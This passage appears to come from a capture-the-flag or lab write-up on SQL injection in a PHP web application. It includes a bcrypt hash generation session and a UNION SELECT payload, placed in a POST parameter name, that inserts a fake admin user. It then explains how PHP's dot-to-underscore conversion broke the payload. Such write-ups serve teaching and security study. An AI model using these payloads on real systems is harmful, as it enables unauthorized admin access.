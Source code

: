 ![img4][img4]
<p align="center"><i>Figure 4: SQL injection sleep</i></p>

After I identified the injection point, I moved to craft sql payload to set user as admin. The application validate the password using `password_verify()`, and it using `PASSWORD_DEFAULT` option for algorithm, which means it using `bcrypt` as we can see at `./src/backend/app/Models/UserModel.php`.

Based on migration file at `./src/backend/app/Database/Migrations/2023-05-31-224213_AddUser.php`, I can know the column name such as `id`, `username`, `password`, `email`, and `role`. The important column would be `username`, `password` and `role`. For `password` field, this application was using `password_verify()` at `./src/backend/app/Models/UserModel.php`, which means I need to use `password_has()` to generate password hash as such:

```php
❯ php -a
Interactive shell

php > echo password_hash("anything123", PASSWORD_DEFAULT);
$2y$10$6b.RGQsS5JHrrWReaDLP2.4TsyPVO5k4GVD.ah1TXGWGKDt7YzJDS
php > echo password_hash("anything123", PASSWORD_DEFAULT);
$2y$10$.3wsJRpwVXQez3NmT0BAWePTMjTCh5CE0A02mBFPrJXPYB2a82sMu
php > echo password_hash("anything123", PASSWORD_DEFAULT);
$2y$10$y404GRNWAqPODt8c6nZI7.4tWZoAM.BK6HP9tZlj2VkXGPJY1Fvwy
php >
php > var_dump(password_verify("anything123", '$2y$10$6b.RGQsS5JHrrWReaDLP2.4TsyPVO5k4GVD.ah1TXGWGKDt7YzJDS'));
bool(true)
php > var_dump(password_verify("anything123", '$2y$10$.3wsJRpwVXQez3NmT0BAWePTMjTCh5CE0A02mBFPrJXPYB2a82sMu'));
bool(true)
php > var_dump(password_verify("anything123", '$2y$10$y404GRNWAqPODt8c6nZI7.4tWZoAM.BK6HP9tZlj2VkXGPJY1Fvwy'));
bool(true)
```

At first, my payload would look like this:
```php
username=a&password=notvalidpassword&'a'/**/UNION/**/SELECT/**/null,'nonexistsuser','$2y$10$6b.RGQsS5JHrrWReaDLP2.4TsyPVO5k4GVD.ah1TXGWGKDt7YzJDS',null,'admin'#--=sanitized
```

But this payload did not work. Why? Lets understand about ***php variable from external source*** first.  Based on PHP [documentation](https://www.php.net/manual/en/language.variables.external.php), dots and spaces in variable name are converted to underscore. For example `<input type="text" name="my.name" />` becomes `$_REQUEST["my_name"]`.

> ##### Not only Dots and Spaces
>The full list of field-name characters that PHP converts to `_` (underscore) is the following (not just dot):
>- space `( )`
>- dot `(.)`
>- open square bracket `([)`

This information is very critical and important for us because my SQL payload is on parameter variable, not value. Plus, PHP add dot when hashing, and this make the payload failed. Below was the response after using payload above. Notice that dot in password hash was replaced to underscore.
